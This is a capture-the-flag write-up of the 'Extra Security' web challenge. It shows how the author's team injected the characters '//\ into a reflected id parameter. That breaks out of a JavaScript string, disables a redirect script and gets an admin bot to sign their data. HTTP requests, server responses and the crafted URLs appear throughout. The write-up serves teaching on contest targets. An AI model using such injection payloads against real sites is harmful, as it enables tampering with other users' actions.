 # Extra Security (web 300)

The participants were given an online portal which had several parts.
Sign by Yourself (users could sign any data with a key)
See List of Signatures (The list of user’s signed data were shown)
Sign by Administrator (Sending any data to admin to sign)
Get the flag (getting flag by proper admin sign)
After spending some time on the task, we realized the workflow. The important consequences:
+ Signing could not possible due to JavaScript snippet code.
+ By removing JavaScript code manually, the code signing was possible.
+ Admin signed everything, but the results were not shown to the users.
+ The question asked participant to sign their team number by admin.
+ The signing KEY was stored in cookie without HttpOnly flag.
Attack scenario: In the beginning, we tried to find a XSS vulnerability. By leveraging XSS, it could possible to force admin send their KEY to us, but after some test we were not able to exploit admin blindly. So after some time, we realized that workflow had a problem:

When a user wanted to sign a data, following request was sent:

```
/wait_and_real_sign.php?content=test&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D
And the response was:
HTTP/1.1 200 OK
Server: nginx/1.6.1
Date: Sun, 18 Dec 2016 11:08:27 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 1407

<!doctype html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta http-equiv="x-ua-compatible" content="ie=edge">

    <title>ExtraSecure - Wait & Sign</title>
    <link href="css/bootstrap.min.css" rel="stylesheet">
    <script src="js/index.js"></script>
    <script src="js/cookie.js"></script>
    <script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=";
    </script>
</head>
<body>
<div class="container">
    <div class="card">
        <h1 class="card-header">Signing in <i id="time">10</i> seconds...</h1>
        <p class="card-block">Please be patient... The content will be signed with your key soon and you will be
            redirected to the <i>list</i> page to view the results.</p>
    </div>
</div>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("dGVzdA=="),
            content: "dGVzdA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ='
        };
        postForm('/sign_and_store.php', body);
    });
</script>
</body>
</html>
```
Based on the response:
1. The JavaScript code at the bottom of response, prevented to sign data and redirected user to the home page.
2. `KEY` was gathered by parsing cookie.
3. `ID` was reflected in post data.



Interestingly, when we gave our data to admin to sign, following HTTP request were sent:
```
[POST DATA]
---
content=60&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D&url=http%3A%2F%2Fctf.sharif.edu%3A8083%2Fwait_and_real_sign.php%3Fid%3DeyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D%26content%3D60
---
```
URL decoded data:
```
content=60&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=&url=http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=&content=184
```
The link was similar to our data sign link. However, we had realized that JavaScript code prevented to sign data, as a result, admin was not able to sign anything yet!
So we had to find a way to disable the JavaScript code, and at the same time, not corrupting post data. The first string we came up was:
```
/wait_and_real_sign.php?content=test&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D%5C
```
Which disabled the JavaScript code. However, it corrupted post data as it’s seen:
```
<script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=\";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("dGVzdA=="),
            content: "dGVzdA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=\'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```
Some after, we found magical string:
```
/wait_and_real_sign.php?content=test&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%27%2f%2f%5c
```
Which represents `'//\`. At the same time, it disables JavaScript code and doesn’t corrupt post data:
```
<script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ='//\";
</script>

<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("dGVzdA=="),
            content: "dGVzdA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ='//\'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```
As a consequence, we sent our payload to admin and waited for his sign:
[POST DATA]
```
---
content=148&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D&url=http%3A%2F%2Fctf.sharif.edu%3A8083%2Fwait_and_real_sign.php%3Fid%3DeyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D%27%2f%2f%5c%26content%3D148
---
```
The admin signed our data, we entered it and grabbed the flag :)

https://twitter.com/yshahinzadeh

